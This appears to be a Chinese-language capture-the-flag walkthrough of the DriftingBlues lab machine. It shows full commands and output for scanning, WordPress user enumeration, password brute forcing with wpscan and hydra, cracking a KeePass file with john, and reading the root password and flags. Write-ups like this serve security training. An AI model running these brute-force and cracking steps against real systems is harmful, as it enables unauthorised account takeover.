



# 信息搜集

主机发现

```
# sudo arp-scan -l
192.168.21.9 08:00:27:fd:23:2d PCS Systemtechnik GmbH
```

端口扫描

```
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 03:42 EST
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.00036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:FD:23:2D (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.9  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 03:43 EST
Nmap scan report for 192.168.21.9 (192.168.21.9)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:FD:23:2D (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.08 seconds
```
# 漏洞利用

先看一下80端口



目录扫描


```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.9 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.9
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/wp-admin             (Status: 301) [Size: 315] [--> http://192.168.21.9/wp-admin/]                                             
/wp-content           (Status: 301) [Size: 317] [--> http://192.168.21.9/wp-content/]                                           
/wp-includes          (Status: 301) [Size: 318] [--> http://192.168.21.9/wp-includes/]                                          
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```
/wp-scan



```
┌──(kali㉿kali)-[~]
└─$ wpscan --url "http://192.168.21.9/" --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.21.9/ [192.168.21.9]
[+] Started: Sat Mar  8 03:56:47 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.21.9/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.21.9/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.21.9/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.21.9/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.21.9/index.php/feed/, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://192.168.21.9/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://192.168.21.9/wp-content/themes/twentytwentyone/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://192.168.21.9/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://192.168.21.9/wp-content/themes/twentytwentyone/style.css?ver=1.1
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.21.9/wp-content/themes/twentytwentyone/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <> (0 / 10)  0.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (1 / 10) 10.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (4 / 10) 40.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (5 / 10) 50.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (9 / 10) 90.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] abuzerkomurcu
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.21.9/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] collins
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gill
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gadd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] satanic
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Mar  8 03:56:49 2025
[+] Requests Done: 17
[+] Cached Requests: 60
[+] Data Sent: 4.672 KB
[+] Data Received: 30.898 KB
[+] Memory used: 183.852 MB
[+] Elapsed time: 00:00:02

```
将页面生成字典

```
┌──(kali㉿kali)-[~]
└─$ echo 'abuzerkomurcu\ngill\ncollins\nsatanic\ngadd' > user.txt

──(kali㉿kali)-[~]
└─$ cewl http://192.168.21.9/ -d 2 -m 6 -w pass.txt --with-numbers
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

```
再用wpscan扫一下

```
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.21.9 -U user.txt -P pass.txt
[SUCCESS] - gill / interchangeable 

```
利用爆破出来的账号密码进行登陆网站，找到一个图片，下载下来



在里面找到了ssh登陆密码

```
┌──(kali㉿kali)-[~]
└─$ exiftool 1.png 
ExifTool Version Number         : 13.00
File Name                       : 1.png
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2025:03:08 04:07:54-05:00
File Access Date/Time           : 2025:03:08 04:07:54-05:00
File Inode Change Date/Time     : 2025:03:08 04:07:54-05:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 300
Image Height                    : 300
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Gamma                           : 2.2
Pixels Per Unit X               : 2835
Pixels Per Unit Y               : 2835
Pixel Units                     : meters
XMP Toolkit                     : Adobe XMP Core 5.6-c142 79.160924, 2017/07/13-01:06:39
Creator Tool                    : Adobe Photoshop CC 2018 (Windows)
Create Date                     : 2021:02:24 02:55:28+03:00
Metadata Date                   : 2021:02:24 02:55:28+03:00
Modify Date                     : 2021:02:24 02:55:28+03:00
Instance ID                     : xmp.iid:562b80d4-fe12-8541-ae0c-6a21e7859405
Document ID                     : adobe:docid:photoshop:7232d876-a1d0-044b-9604-08837143888b
Original Document ID            : xmp.did:5890be6c-649b-0248-af9b-19889727200c
Color Mode                      : RGB
ICC Profile Name                : sRGB IEC61966-2.1
Format                          : image/png
History Action                  : created, saved
History Instance ID             : xmp.iid:5890be6c-649b-0248-af9b-19889727200c, xmp.iid:562b80d4-fe12-8541-ae0c-6a21e7859405
History When                    : 2021:02:24 02:55:28+03:00, 2021:02:24 02:55:28+03:00
History Software Agent          : Adobe Photoshop CC 2018 (Windows), Adobe Photoshop CC 2018 (Windows)
History Changed                 : /
Text Layer Name                 : ssh password is 59583hello of course it is lowercase maybe not
Text Layer Text                 : ssh password is 59583hello of course it is lowercase maybe not :)
Document Ancestors              : adobe:docid:photoshop:871a8adf-5521-894c-8a18-2b27c91a893b
Image Size                      : 300x300
Megapixels                      : 0.090

```
再拿刚才的用户和这个密码爆破一下ssh

```
┌──(kali㉿kali)-[~]
└─$ hydra -L user.txt -p 59583hello  ssh://192.168.21.9
[22][ssh] host: 192.168.21.9   login: gill   password: 59583hello 

```
ssh登录

```
┌──(root㉿kali)-[~]
└─# ssh gill@192.168.21.9

```
# 提权
user.txt

```
gill@driftingblues:~$ cat user.txt
F83FC7429857283616AE62F8B64143E6

```
看一下有什么

```
gill@driftingblues:~$ sudo -l
-bash: sudo: command not found

gill@driftingblues:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh

gill@driftingblues:~$ ls -la
total 24
drwxr-xr-x 4 gill gill 4096 Mar  8 03:17 .
drwxr-xr-x 3 root root 4096 Feb 24  2021 ..
drwx------ 3 gill gill 4096 Mar  8 03:17 .gnupg
-rwx------ 1 gill gill 2030 Feb 24  2021 keyfile.kdbx
drwx------ 2 gill gill 4096 Feb 24  2021 .ssh
-r-x------ 1 gill gill   32 Feb 24  2021 user.txt

```


把文件下载下来

```
┌──(root㉿kali)-[~]
└─# scp gill@192.168.21.9:/home/gill/key* /home/kali
gill@192.168.21.9's password: 
keyfile.kdbx                  100% 2030     2.0MB/s   00:00

```
爆破

```
┌──(kali㉿kali)-[~]
└─$  keepass2john keyfile.kdbx > hash
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porsiempre       (keyfile)     
1g 0:00:00:53 DONE (2024-04-11 03:18) 0.01869g/s 128.7p/s 128.7c/s 128.7C/s winston1..palomita
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
安装一个keepass2

```
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install keepass2

```
逻辑可能是检测 keyfolder 是否存在密钥

```
gill@driftingblues:/keyfolder$ touch fracturedocean
gill@driftingblues:/keyfolder$ chmod +x fracturedocean
gill@driftingblues:/keyfolder$ ls
fracturedocean rootcreds.txt
gill@driftingblues:/keyfolder$ cat rootcreds.txt 
root creds

imjustdrifting31
gill@driftingblues:/keyfolder$ su root
Password: 
root@driftingblues:/keyfolder# id
uid=0(root) gid=0(root) groups=0(root)

```
root.txt

```
root@driftingblues:~# cat root.txt 
9EFF53317826250071574B4D4EE56840

```
